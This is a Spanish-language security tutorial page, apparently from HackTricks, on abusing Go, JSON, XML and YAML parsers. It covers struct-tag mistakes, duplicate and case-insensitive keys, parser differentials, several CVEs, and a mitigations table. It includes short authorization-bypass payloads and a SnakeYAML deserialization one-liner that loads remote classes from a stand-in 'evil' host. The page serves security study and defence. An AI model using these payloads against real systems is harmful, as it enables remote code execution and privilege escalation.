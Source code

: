 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Se detectaron los siguientes problemas en el Go JSON, aunque también podrían estar presentes en otros lenguajes. Estos problemas se publicaron en [**esta entrada de blog**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Los analizadores JSON, XML y YAML de Go tienen una larga trayectoria de inconsistencias y configuraciones inseguras que pueden ser abusadas para **eludir la autenticación**, **escalar privilegios** o **exfiltrar datos sensibles**.

### (Un)Marshaling Datos Inesperados

El objetivo es explotar estructuras que permiten a un atacante leer/escribir campos sensibles (por ejemplo, `IsAdmin`, `Password`).

- Example Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Vulnerabilidades Comunes

1. **Etiqueta faltante** (sin etiqueta = el campo aún se analiza por defecto):
```go
type User struct {
Username string
}
```
Carga útil:
```json
{"Username": "admin"}
```
2. **Uso incorrecto de `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Carga útil:
```json
{"-": true}
```
✔️ Forma adecuada de bloquear un campo para que no sea (des)serializado:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Diferenciales de Parser

El objetivo es eludir la autorización aprovechando cómo diferentes parsers interpretan la misma carga útil de manera diferente, como en:
- CVE-2017-12635: elusión de Apache CouchDB a través de claves duplicadas
- 2022: RCE de 0 clics de Zoom a través de la inconsistencia del parser XML
- elusión de SAML de GitLab 2025 a través de peculiaridades de XML

**1. Campos Duplicados:**
El `encoding/json` de Go toma el **último** campo.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Otros analizadores (por ejemplo, Jackson de Java) pueden tomar el **primero**.

**2. Insensibilidad a mayúsculas y minúsculas:**
Go es insensible a mayúsculas y minúsculas:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Incluso los trucos de Unicode funcionan:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Desajuste entre servicios:**
Imagina:
- Proxy escrito en Go
- Servicio de AuthZ escrito en Python

El atacante envía:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python ve `UserAction`, lo permite
- Go ve `AdminAction`, lo ejecuta


### Confusión de Formato de Datos (Políglotas)

El objetivo es explotar sistemas que mezclan formatos (JSON/XML/YAML) o que fallan abiertamente en errores de análisis como:
- **CVE-2020-16250**: HashiCorp Vault analizó JSON con un analizador XML después de que STS devolviera JSON en lugar de XML.

El atacante controla:
- El encabezado `Accept: application/json`
- Control parcial del cuerpo JSON

El analizador XML de Go lo analizó **de todos modos** y confió en la identidad inyectada.

- Carga útil elaborada:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
- **Go JSON** parser: `Action_2` (sin distinción entre mayúsculas y minúsculas + el último gana)
- **YAML** parser: `Action_1` (sensible a mayúsculas)
- **XML** parser: analiza `"Action_3"` dentro de la cadena

---

## Vulnerabilidades Notables de los Parsers (2023-2025)

> Los siguientes problemas explotables públicamente muestran que el análisis inseguro es un problema multilenguaje, no solo un problema de Go.

### Deserialización RCE de SnakeYAML (CVE-2022-1471)

* Afecta: `org.yaml:snakeyaml` < **2.0** (utilizado por Spring-Boot, Jenkins, etc.).
* Causa raíz: `new Constructor()` deserializa **clases Java arbitrarias**, permitiendo cadenas de gadgets que culminan en ejecución de código remoto.
* PoC de una línea (abrirá la calculadora en el host vulnerable):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Fix / Mitigación:
1. **Actualizar a ≥2.0** (usa `SafeLoader` por defecto).
2. En versiones anteriores, usar explícitamente `new Yaml(new SafeConstructor())`.

### libyaml Doble Liberación (CVE-2024-35325)

* Afecta: `libyaml` ≤0.2.5 (biblioteca C utilizada por muchos enlaces de lenguaje).
* Problema: Llamar a `yaml_event_delete()` dos veces conduce a una doble liberación que los atacantes pueden convertir en DoS o, en algunos escenarios, explotación de heap.
* Estado: Rechazado por upstream como “uso indebido de la API”, pero las distribuciones de Linux enviaron un **0.2.6** parcheado que libera el puntero a null de manera defensiva.

### RapidJSON Entero (Sub|Sobre)-flujo (CVE-2024-38517 / CVE-2024-39684)

* Afecta: Tencent **RapidJSON** antes del commit `8269bc2` (<1.1.0-patch-22).
* Error: En `GenericReader::ParseNumber()` la aritmética no verificada permite a los atacantes crear literales numéricos enormes que se envuelven y corrompen el heap, lo que finalmente habilita la escalación de privilegios cuando el gráfico de objetos resultante se utiliza para decisiones de autorización.

---

### 🔐 Mitigaciones (Actualizado)

| Riesgo                              | Fix / Recomendación                                      |
|-------------------------------------|------------------------------------------------------------|
| Campos desconocidos (JSON)          | `decoder.DisallowUnknownFields()`                          |
| Campos duplicados (JSON)            | ❌ Sin solución en stdlib — validar con [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Coincidencia sin distinción de mayúsculas (Go) | ❌ Sin solución — validar etiquetas de estructura + pre-canonizar entrada   |
| Datos basura XML / XXE              | Usar un analizador endurecido (`encoding/xml` + `DisallowDTD`)     |
| Claves desconocidas YAML             | `yaml.KnownFields(true)`                                   |
| **Deserialización YAML insegura**   | Usar SafeConstructor / actualizar a SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 doble liberación     | Actualizar a **0.2.6** o versión parcheada de la distro            |
| RapidJSON <commit parcheado         | Compilar contra la última versión de RapidJSON (≥Julio 2024)              |

## Referencias

- Baeldung – “Resolviendo CVE-2022-1471 Con SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}

